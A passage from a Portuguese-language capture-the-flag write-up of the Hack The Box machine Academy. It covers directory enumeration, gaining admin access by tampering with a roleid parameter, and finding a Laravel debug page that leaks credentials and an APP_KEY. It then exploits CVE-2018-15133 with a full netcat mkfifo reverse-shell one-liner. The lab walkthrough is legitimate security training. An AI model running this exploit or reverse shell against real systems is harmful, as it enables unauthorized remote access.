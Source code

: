 ```bash
===============================================================
/index.php (Status: 200)
/images (Status: 301)
/login.php (Status: 200)
/home.php (Status: 200)
/register.php (Status: 200)
/admin.php (Status: 200)
/config.php (Status: 200)
Progress: 48339 / 220561 (21.92%)in.php (Status: 200)

```

### admin.php

Acessando `admin.php` notei que a tela de logon se parece bastante com a tela de login anterior, porém nossas credenciais de testes não funcionaram. Lembrando que temos uma oportunidade de adulterar detalhes da criação do usuário, decidi por criar uma nova conta, desta vez alterando o parametro **roleid** substituindo o valor 0 no request por 1. Com esta nova conta, cujo roleid=**1**, consegui acessar a área restrita, onde o conteúdo abaixo doi exibido:

![image-20210217131705459](https://i.imgur.com/s54Fy4z.png){: .align-center}

Embora não possua nenhuma informação oculta no fonte, o que chamou atenção foi o host **dev-staging-01.academy.htb**, que possivelmente também encontra-se em execução nesta máquina.

Após adicionar este host no arquivo hosts sob o mesmo endereço IP da máquina, o conteúdo abaixo foi exibido, que é um framework para tratativa de erros no PHP que permite aos desenvolvedores debugar seu código, mas neste caso estava aberto e vazando uma série de informações como credenciais e variáveis de ambiente.

![image-20210217132525919](https://i.imgur.com/EdXyUeb.png){: .align-center}

O que mais chamou a atenção dentre os dados vazados foram as credenciais de MySQL e App_key do Laravel, que podem nos levar a um acesso inicial nesta máquina.

## Acesso inicial

Como não temos a porta MySQL 3306/TCP aberta nesta máquina, com base no scan inicial do nmap, fazendo uma rápida pesquisa na internet pelo que seria possível alcançar com a App_key do Laravel encontrei o [CVE-2018-15133](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15133) que pode nos levar a uma execução remota de código através de uma chamada de deserialização em algumas versões afetadas do Laravel. Se tivermos sorte isto deve funcionar para esta máquina :smiley:.

Realizando algumas pesquisas adicionais, encontrei [este repositório](https://github.com/aljavier/exploit_laravel_cve-2018-15133) que implementa este exploit de uma forma simples e que foi utilizado para obter um shell reverso nesta máquina.

```bash
python3 ./pwn_laravel.py http://dev-staging-01.academy.htb dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f"
```

## User flag
